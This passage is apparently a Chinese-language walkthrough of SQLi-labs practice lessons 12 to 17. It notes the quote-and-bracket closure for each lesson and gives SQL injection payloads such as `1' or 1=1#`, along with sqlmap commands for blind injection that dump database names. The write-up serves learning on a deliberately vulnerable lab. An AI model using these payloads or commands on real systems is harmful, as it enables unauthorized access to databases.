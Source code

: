 #### Less12：
**老方法，看出是双引号加括号闭合**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732163087650-ba716764-31f4-4979-b5fc-e4c0b65ebaf8.png)

#### Less13：
**单引号加括号闭合**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732163041484-7d38f0bb-ed88-49ff-afc6-1c6fa9ff3a15.png)

#### Less14：
**双引号闭合**

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732163150873-2db4562c-9eb5-488e-86e5-db8e293a08ba.png)



### Less15-Less16（布尔盲注 POST 型）
#### Less15：
**已经没有报错信息了，但是通过测试发现，还有正确与错误的信息作比较，那这就是盲注**

```sql
# 页面正确
1' or 1=1#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732163491673-2216f3b2-aceb-4df4-806b-409797839f4b.png)

使用 sqlmap

```sql
python sqlmap.py -r post_test\less15.txt -dbs
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732167607886-73b89cfb-d53b-46fd-a269-a9ad5bddee53.png)

很奇怪的是，指定了布尔类型却没反应

```sql
python sqlmap.py -r post_test\less15.txt --technique B -dbs
```

****

#### Less16：
输入下列内容，成功。双引号加括号闭合

```sql
1") or 1=1#
```

![](https://cdn.nlark.com/yuque/0/2024/png/49936693/1732167944445-406cf7a8-5ad1-4bd3-b17e-952ee0f66a82.png)



### Less17-Less18（报错注入）
#### Less17：
**在笔记里写过了，不多说了**
